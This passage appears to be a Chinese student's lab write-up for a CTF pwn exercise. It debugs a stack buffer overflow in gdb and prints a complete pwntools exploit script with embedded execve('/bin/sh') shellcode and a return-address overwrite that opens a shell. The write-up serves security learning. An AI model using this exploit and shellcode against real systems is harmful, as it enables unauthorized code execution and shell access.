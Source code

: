     此时RDI指向"Detect bof!"，RIP指向`push`函数的地址，在下方的栈显示中也看到"a"越过了0048的限制。
    {% asset_img 36.png %}
10. 先看payload的运行效果
    {% asset_img 38.png %}

    {% note info %} 
    可以看到，switching to interactive mode之后，有一个小的`$`号出现在shell的左侧，这是一个小shell(`bin/sh`)，可以执行一些简单的命令，在CTF的pwn题中经常用于反弹shell，获取flag文件。
    {% endnote %}
11. 接下来，调试一下payload输入，把它输入到gdb调试进程中。
    {% grouppicture 2-2 %} {% asset_img 39.png %} {% asset_img 40.png %} {% endgrouppicture %}
    可以观察到输入的内容位于RSI（`0x7fffffffde70`）中，在RBP中看到了"/bin/sh"的字样，这是Linux下的一种shell。然后在栈中看到了被“截断”的序列`\x00H1\xffH1`。中间隔离了一些内容后，下方被注入了`bin/sh`字符串。随后在`puts`调用时，`bin/sh`被推到RBP上，在函数退出后，`bin/sh`将会执行，中间的一些地址应当是`bin/sh`的地址。
    {% grouppicture 3-3 %} {% asset_img 41.png %} {% asset_img 42.png %} {% asset_img 43.png %} {% endgrouppicture %}

最终的payload代码如下所示

{% codeblock lang:python line_number:false %} 
from pwn import *
# p=remote()
p=process('./sc2')
# addr_egg = 0x400798
payload='a'*7+"\x00"+"\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"+"b"*5+p64(0x400798)
print p.recv()

p.sendline(payload)
p.interactive()
{% endcodeblock %}

## 实验难点及收获

软件的使用方面，这次使用了windbg和gdb完成实验，其中gdb是第一次使用，操作比较陌生，不太熟练（主要是，不太适应命令行环境），但通过这一次的练习，我感受到它确实是一个功能非常强大的软件，可以在运行的同时实时查看堆栈的情况，还可以用来打印出重要函数的地址，方便payload使用它，是除windbg外个人接触的第一款Linux端调试软件。今后还会使用到gdb的更多命令，也会为ctf的pwn题打下充分的基础。

POC的编写方面，作为Python的重度使用者，当然是选择使用pwn这个功能众多的Python库，以往看一些CTF比赛的writeup时，大多数的pwn题都用到了pwn来编写payload，从实际使用上来说，pwntools确实功能强大，就pwn题来说，可以根据操作系统版本生成不同的shellcode，也可以用elf工具查看got表、plt表地址，参加CTF比赛时也有交互功能，本身也提供很多实用的小工具。

## 实验思考

### Pwn库中一些shellcraft.arch.os的运行结果和含义

{% note info %}
资料来源于http://docs.pwntools.com/en/stable/shellcraft.html
{% endnote %}
{% tabs run_res, 1 %}
